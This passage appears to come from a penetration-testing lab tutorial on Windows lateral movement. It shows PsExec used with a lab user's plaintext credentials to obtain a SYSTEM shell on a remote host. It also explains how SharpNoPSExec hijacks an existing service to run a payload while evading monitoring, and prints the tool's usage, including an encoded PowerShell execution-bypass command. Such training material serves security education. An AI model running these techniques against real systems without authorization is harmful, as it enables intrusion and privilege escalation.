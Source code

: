 
```powershell-session
PS C:\Tools> .\PsExec.exe \\SRV02 -i -s -u INLANEFREIGHT\helen -p RedRiot88 cmd

PsExec v2.43 - Execute processes remotely
Copyright (C) 2001-2023 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

### SharpNoPSExec
[SharpNoPSExec](https://github.com/juliourena/SharpNoPSExec) is a tool designed to facilitate lateral movement by leveraging existing services on a target system without creating new ones or writing to disk, thus minimizing detection risk. The tool queries all services on the target machine, identifying those with a start type set to disabled or manual, current status of stopped, and running with LocalSystem privileges. It randomly selects one of these services and temporarily modifies its binary path to point to a payload of the attacker’s choice. Upon execution, SharpNoPSExec waits approximately 5 seconds before restoring the original service configuration, returning the service to its previous state. This approach not only provides a shell but also avoids the creation of new services, which security monitoring systems could flag.

Executing the tool without parameters we will see some help and usage information.

```powershell-session
PS C:\Tools> .\SharpNoPSExec.exe

███████╗██╗  ██╗ █████╗ ██████╗ ██████╗ ███╗   ██╗ ██████╗ ██████╗ ███████╗███████╗██╗  ██╗███████╗ ██████╗
██╔════╝██║  ██║██╔══██╗██╔══██╗██╔══██╗████╗  ██║██╔═══██╗██╔══██╗██╔════╝██╔════╝╚██╗██╔╝██╔════╝██╔════╝
███████╗███████║███████║██████╔╝██████╔╝██╔██╗ ██║██║   ██║██████╔╝███████╗█████╗   ╚███╔╝ █████╗  ██║
╚════██║██╔══██║██╔══██║██╔══██╗██╔═══╝ ██║╚██╗██║██║   ██║██╔═══╝ ╚════██║██╔══╝   ██╔██╗ ██╔══╝  ██║
███████║██║  ██║██║  ██║██║  ██║██║     ██║ ╚████║╚██████╔╝██║     ███████║███████╗██╔╝ ██╗███████╗╚██████╗
╚══════╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝  ╚═══╝ ╚═════╝ ╚═╝     ╚══════╝╚══════╝╚═╝  ╚═╝╚══════╝ ╚═════╝

Version: 0.0.3
Author: Julio Ureña (PlainText)
Twitter: @juliourena

Usage:
SharpNoPSExec.exe --target=192.168.56.128 --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e ZQBjAGgAbwAgAEcAbwBkACAAQgBsAGUAcwBzACAAWQBvAHUAIQA="

Required Arguments:
--target=       - IP or machine name to attack.
--payload=      - Payload to execute in the target machine.

Optional Arguments:
--username=     - Username to authenticate to the remote computer.
--password=     - Username's password.
--domain=       - Domain Name, if no set a dot (.) will be used instead.

--service=      - Service to modify to execute the payload, after the payload is completed the service will be restored.
Note: If not service is specified the program will look for a random service to execute.
```